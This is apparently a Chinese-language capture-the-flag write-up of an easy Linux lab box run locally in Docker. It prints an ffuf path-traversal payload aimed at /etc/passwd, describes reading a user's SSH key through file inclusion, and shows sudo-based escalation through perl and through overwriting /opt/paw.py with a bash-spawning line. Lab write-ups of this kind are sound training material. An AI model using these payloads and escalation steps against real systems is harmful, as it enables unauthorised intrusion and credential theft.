

## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Easy |

## Nmap

```
[root@kali] /home/kali  
❯ nmap 172.17.0.2 -sV   
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-21 15:07 CST
Nmap scan report for 172.17.0.2
Host is up (0.0000080s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.45 seconds
```

## Dirsearch

```
[root@kali] /home/kali/Psycho  
❯ dirsearch -u 172.17.0.2 -t 50     
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 50 | Wordlist size: 11460

Output File: /home/kali/Psycho/reports/_172.17.0.2/_25-02-21_15-09-17.txt

Target: http://172.17.0.2/

[15:09:17] Starting: 
[15:09:18] 403 - 275B  - /.ht_wsr.txt                                      
[15:09:18] 403 - 275B  - /.htaccess.bak1                                   
[15:09:18] 403 - 275B  - /.htaccess.orig
[15:09:18] 403 - 275B  - /.htaccess.sample                                 
[15:09:18] 403 - 275B  - /.htaccess.save
[15:09:18] 403 - 275B  - /.htaccess_extra                                  
[15:09:18] 403 - 275B  - /.htaccess_sc                                     
[15:09:18] 403 - 275B  - /.htaccessOLD
[15:09:18] 403 - 275B  - /.htaccessOLD2                                    
[15:09:18] 403 - 275B  - /.htm                                             
[15:09:18] 403 - 275B  - /.html
[15:09:18] 403 - 275B  - /.htaccessBAK
[15:09:18] 403 - 275B  - /.htpasswds                                       
[15:09:18] 403 - 275B  - /.httr-oauth                                      
[15:09:18] 403 - 275B  - /.htpasswd_test                                   
[15:09:18] 403 - 275B  - /.php                                             
[15:09:21] 403 - 275B  - /.htaccess_orig                                   
[15:09:24] 301 - 309B  - /assets  ->  http://172.17.0.2/assets/            
[15:09:24] 200 - 458B  - /assets/                                          
[15:09:38] 403 - 275B  - /server-status                                    
[15:09:38] 403 - 275B  - /server-status/                                   
                                                                             
Task Completed                 
```

在网页源码底部发现了一个**ERROR**，意味着是不是他的调用方式有什么问题？或者什么参数有问题？


## FFUF

尝试对**index.php**的参数进行枚举，发现存在**secret**这个参数，可以进行**LFI**读取文件

```
[root@kali] /home/kali  
❯ ffuf -w ./Desktop/fuzzDicts/paramDict/parameter.txt  -u 'http://172.17.0.2/index.php?FUZZ=../../../../../../etc/passwd' --fs 2596

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://172.17.0.2/index.php?FUZZ=../../../../../../etc/passwd
 :: Wordlist         : FUZZ: /home/kali/Desktop/fuzzDicts/paramDict/parameter.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 2596
________________________________________________

secret                  [Status: 200, Size: 3870, Words: 678, Lines: 89, Duration: 0ms]
:: Progress: [5846/5846] :: Job [1/1] :: 57 req/sec :: Duration: [0:00:04] :: Errors: 0 ::
```

用**curl**发送命令然后获取到了**/etc/passwd**的内容


这里发现了两个用户名：**vaxei**、**luisillo**

尝试读取**ssh**密钥文件


成功拿到**vaxei**用户的**shell**，用**LFI**无法读取到**luisillo**的**ssh**密钥


## Privilege Escalation

查看用户的特殊权限命令

可以发现**vaxei**能以**luisillo**的身份运行**perl**命令

```
vaxei@4b3a9fd95001:~$ sudo -l
Matching Defaults entries for vaxei on 4b3a9fd95001:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User vaxei may run the following commands on 4b3a9fd95001:
    (luisillo) NOPASSWD: /usr/bin/perl
```

在[perl | GTFOBins](https://gtfobins.github.io/gtfobins/perl/)中可以看到


因此可以将用户提升为**luisillo**



查看**luisillo**的特殊命令

```
luisillo@4b3a9fd95001:~$ sudo -l
Matching Defaults entries for luisillo on 4b3a9fd95001:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User luisillo may run the following commands on 4b3a9fd95001:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/paw.py
```

查看**/opt/paw.py**的具体内容

```
luisillo@4b3a9fd95001:~$ cat /opt/paw.py 
import subprocess
import os
import sys
import time

# F
def dummy_function(data):
    result = ""
    for char in data:
        result += char.upper() if char.islower() else char.lower()
    return result

# Código para ejecutar el script
os.system("echo Ojo Aqui")

# Simulación de procesamiento de datos
def data_processing():
    data = "This is some dummy data that needs to be processed."
    processed_data = dummy_function(data)
    print(f"Processed data: {processed_data}")

# Simulación de un cálculo inútil
def perform_useless_calculation():
    result = 0
    for i in range(1000000):
        result += i
    print(f"Useless calculation result: {result}")

def run_command():
    subprocess.run(['echo Hello!'], check=True)

def main():
    # Llamadas a funciones que no afectan el resultado final
    data_processing()
    perform_useless_calculation()
    
    # Comando real que se ejecuta
    run_command()

if __name__ == "__main__":
    main()
```

其实这里有很多种解法，我就写一个比较简单的。

**luisillo**是可以在**/opt/**目录下进行任意操作的，包括删除文件，添加文件

因此可以重写这个**paw.py**

```
luisillo@4b3a9fd95001:/opt$ rm paw.py
luisillo@4b3a9fd95001:/opt$ echo 'import os; os.system("/bin/bash")' >> paw.py
```

然后执行即可拿到**root**权限


其余的解法我看了一下，大概也就是修改引入包，因为**python**的引入包策略是同级目录优先，如果统计目录下有**subprocess.py**这种，会优先使用它。如果将命令写入，也是可以直接获取到**root**权限。这种在无法修改**paw.py**的情况下是可以使用的

## Summary

从网页源码猜测得到，存在**LFI**文件包含漏洞，使用**wfuzz**对路径参数进行爆破，读取**vaxei**的**ssh**密钥成功拿到**Shell**权限。利用**vaxei**作为跳板得到**luisillo**的权限，并且通过覆写**paw.py**成功越权

第一次使用这个靶场, 使用**docker**搭在本地的话,操作起来就比较方便,也没有什么延迟
